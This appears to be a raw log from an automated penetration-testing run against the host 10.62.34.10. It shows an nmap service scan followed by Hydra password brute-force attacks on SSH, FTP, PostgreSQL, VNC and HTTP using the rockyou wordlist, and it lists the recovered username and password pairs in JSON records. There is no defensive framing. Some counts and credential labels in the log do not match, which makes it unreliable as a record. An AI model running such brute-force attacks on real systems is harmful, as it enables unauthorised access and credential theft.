 {"credentials":[],"endpoints":["10.62.34.10:22/ssh","10.62.34.10:53/tcpwrapped","10.62.34.10:80/http","10.62.34.10:212/ftp","10.62.34.10:700/http","10.62.34.10:901/vnc","10.62.34.10:5432/postgresql"],"services":["OpenSSH 8.9p1 Ubuntu 3ubuntu0.13:22","nginx 1.18.0 (Ubuntu):80","vsftpd 2.3.4:212","Gunicorn:700","VNC (protocol 3.8):901","PostgreSQL DB 9.6.0 or later:5432"],"cookies":[],"vulnerabilities":[]}{"command": "nmap -sV -T4 --top-ports=1000 10.62.34.10", "result": "Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-30 18:47 UTC
Nmap scan report for 10.62.34.10
Host is up (0.012s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
212/tcp  open  ftp        vsftpd 2.3.4
700/tcp  open  http       Gunicorn
901/tcp  open  vnc        VNC (protocol 3.8)
5432/tcp open  postgresql PostgreSQL DB 9.6.0 or later
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.64 seconds
"}{"credentials":[{"type":"password","login":"admin","password":"protect","context":"ssh://10.62.34.10:22/"},{"type":"password","login":"uftp","password":"clock","context":"ssh://10.62.34.10:22/"}],"endpoints":["10.62.34.10:22/"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.62.34.10", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:47:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 190 login tries (l:5/p:38), ~12 tries per task
[DATA] attacking ssh://10.62.34.10:22/
[22][ssh] host: 10.62.34.10   login: admin   password: protect
[22][ssh] host: 10.62.34.10   login: uftp   password: clock
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:48:15
"}{"credentials":[{"type":"password","login":"admin","password":"protect","context":""},{"type":"password","login":"uftp","password":"clock","context":""}],"endpoints":["10.62.34.10:212"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt ftp://10.62.34.10:212", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:48:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 190 login tries (l:5/p:38), ~12 tries per task
[DATA] attacking ftp://10.62.34.10:212/
[212][ftp] host: 10.62.34.10   login: admin   password: protect
[212][ftp] host: 10.62.34.10   login: uftp   password: clock
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:48:46
"}{"credentials":[],"endpoints":[],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt pgsql://10.62.34.10:5432", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:49:06
"}{"credentials":[],"endpoints":["10.62.34.10:5432"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt postgres://10.62.34.10:5432", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:49:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 190 login tries (l:5/p:38), ~12 tries per task
[DATA] attacking postgres://10.62.34.10:5432/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:49:12
"}{"credentials":[],"endpoints":["10.62.34.10:901"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt rdp://10.62.34.10:901", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:49:16
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 190 login tries (l:5/p:38), ~48 tries per task
[DATA] attacking rdp://10.62.34.10:901/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 112 to do in 00:02h, 2 active
[STATUS] 78.00 tries/min, 156 tries in 00:02h, 36 to do in 00:01h, 2 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:51:45
"}{"credentials":[{"type":"password","login":"admin","password":"protect","context":""},{"type":"password","login":"admin","password":"666","context":""},{"type":"password","login":"admin","password":"clock","context":""},{"type":"password","login":"admin","password":"123456","context":""},{"type":"password","login":"user","password":"protect","context":""},{"type":"password","login":"user","password":"666","context":""},{"type":"password","login":"user","password":"clock","context":""},{"type":"password","login":"user","password":"123456","context":""},{"type":"password","login":"uftp","password":"protect","context":""},{"type":"password","login":"uftp","password":"666","context":""},{"type":"password","login":"uftp","password":"clock","context":""},{"type":"password","login":"uftp","password":"123456","context":""},{"type":"password","login":"usmb","password":"protect","context":""},{"type":"password","login":"usmb","password":"clock","context":""},{"type":"password","login":"usmb","password":"666","context":""},{"type":"password","login":"usmb","password":"123456","context":""}],"endpoints":["10.62.34.10:80"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt -t 4 -w 30 http-get://10.62.34.10:80", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:52:25
[DATA] max 4 tasks per 1 server, overall 4 tasks, 190 login tries (l:5/p:38), ~48 tries per task
[DATA] attacking http-get://10.62.34.10:80/
[80][http-get] host: 10.62.34.10   login: admin   password: protect
[80][http-get] host: 10.62.34.10   login: admin   password: 666
[80][http-get] host: 10.62.34.10   login: admin   password: clock
[80][http-get] host: 10.62.34.10   login: admin   password: 123456
[80][http-get] host: 10.62.34.10   login: user   password: protect
[80][http-get] host: 10.62.34.10   login: user   password: 666
[80][http-get] host: 10.62.34.10   login: user   password: clock
[80][http-get] host: 10.62.34.10   login: user   password: 123456
[80][http-get] host: 10.62.34.10   login: uftp   password: protect
[80][http-get] host: 10.62.34.10   login: uftp   password: 666
[80][http-get] host: 10.62.34.10   login: uftp   password: clock
[80][http-get] host: 10.62.34.10   login: uftp   password: 123456
[80][http-get] host: 10.62.34.10   login: usmb   password: protect
[80][http-get] host: 10.62.34.10   login: usmb   password: clock
[80][http-get] host: 10.62.34.10   login: usmb   password: 666
[80][http-get] host: 10.62.34.10   login: usmb   password: 123456
1 of 1 target successfully completed, 54 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:52:38
"}{"credentials":[{"type":"password","login":"admin","password":"666","context":"usmb"},{"type":"password","login":"admin","password":"protect","context":"ssh"},{"type":"password","login":"admin","password":"clock","context":"ftp"},{"type":"password","login":"user","password":"protect","context":"ssh"},{"type":"password","login":"user","password":"666","context":""},{"type":"password","login":"user","password":"clock","context":""},{"type":"password","login":"user","password":"123456","context":""},{"type":"password","login":"uftp","password":"protect","context":""},{"type":"password","login":"uftp","password":"666","context":""},{"type":"password","login":"uftp","password":"clock","context":""},{"type":"password","login":"usmb","password":"protect","context":""},{"type":"password","login":"usmb","password":"666","context":""},{"type":"password","login":"usmb","password":"clock","context":""},{"type":"password","login":"uftp","password":"123456","context":""}],"endpoints":["10.62.34.10:700"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt -t 4 -w 30 http-get://10.62.34.10:700", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
